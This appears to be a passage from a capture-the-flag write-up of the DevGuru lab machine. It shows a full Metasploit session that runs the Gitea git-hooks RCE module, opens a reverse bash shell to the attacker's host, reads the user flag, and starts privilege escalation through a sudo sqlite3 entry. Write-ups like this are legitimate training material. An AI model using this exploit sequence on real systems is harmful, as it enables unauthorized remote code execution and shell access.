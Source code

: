 ```shell
msf6 exploit(multi/http/gitea_git_hooks_rce) > set PASSWORD password
PASSWORD => password
msf6 exploit(multi/http/gitea_git_hooks_rce) > set RPORT 8585
RPORT => 8585
msf6 exploit(multi/http/gitea_git_hooks_rce) > set RHOST 10.0.2.10
RHOST => 10.0.2.10
msf6 exploit(multi/http/gitea_git_hooks_rce) > set LHOST 10.0.2.15
LHOST => 10.0.2.15
msf6 exploit(multi/http/gitea_git_hooks_rce) > exploit

[*] Started reverse TCP handler on 10.0.2.15:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Gitea version is 1.12.5
[*] Executing Unix Command for cmd/unix/reverse_bash
[*] Authenticate with "frank/password"
[+] Logged in
[*] Create repository "Sub-Ex_Bytecard"
[+] Repository created
[*] Setup post-receive hook with command
[+] Git hook setup
[*] Create a dummy file on the repo to trigger the payload
[+] File created, shell incoming...
[*] Command shell session 1 opened (10.0.2.15:4444 -> 10.0.2.10:52018) at 2023-07-31 13:34:23 -0400
[*] Cleaning up
[*] Repository Sub-Ex_Bytecard deleted.

id
uid=1000(frank) gid=1000(frank) groups=1000(frank)
uname -a
Linux devguru.local 4.15.0-124-generic #127-Ubuntu SMP Fri Nov 6 10:54:43 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

```shell
python3 -c "import pty; pty.spawn('/bin/bash')"
frank@devguru:~/gitea-repositories/frank/tempsoft_matsoft.git$ export TERM=xterm
<ories/frank/tempsoft_matsoft.git$ export TERM=xterm
frank@devguru:~/gitea-repositories/frank/tempsoft_matsoft.git$ cd /home/frank
frank@devguru:/home/frank$ ls
data  user.txt
frank@devguru:/home/frank$ cat user.txt
22854d0aec6ba776f9d35bf7b0e00217
```

User Flag: **22854d0aec6ba776f9d35bf7b0e00217**

### Privilege Escalation (Root)

Kiểm tra đặc quyền của thằng frank

```shell
frank@devguru:/home/frank$ sudo -l
Matching Defaults entries for frank on devguru:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User frank may run the following commands on devguru:
    (ALL, !root) NOPASSWD: /usr/bin/sqlite3

```
